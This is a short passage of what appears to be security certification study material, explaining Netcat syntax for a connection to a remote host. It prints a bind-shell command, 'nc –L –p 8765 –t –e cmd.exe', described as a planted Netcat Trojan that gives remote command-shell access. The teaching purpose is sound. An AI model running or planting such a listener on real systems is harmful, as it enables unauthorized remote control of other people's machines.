

A.

As stated earlier, Netcat is a wonderful tool that allows remote access wizardry on a machine, and you’ll need to be able to recognize the basics of the syntax. In the command example, Netcat is being told, “Please attempt a connection to the machine with the IP address of 222.15.66.78 on port 8765; I believe you’ll find the port in a listening state, waiting for our arrival.”

 Obviously at some point previous to issuing this command on his local machine, the pen tester planted the Netcat Trojan on the remote system (222.15.66.78) and set it up in a listening state. He may have set it up with command-shell access (allowing a Telnet-like connection to issue commands at will) using the following command:
.
nc –L –p 8765 –t –e cmd.exe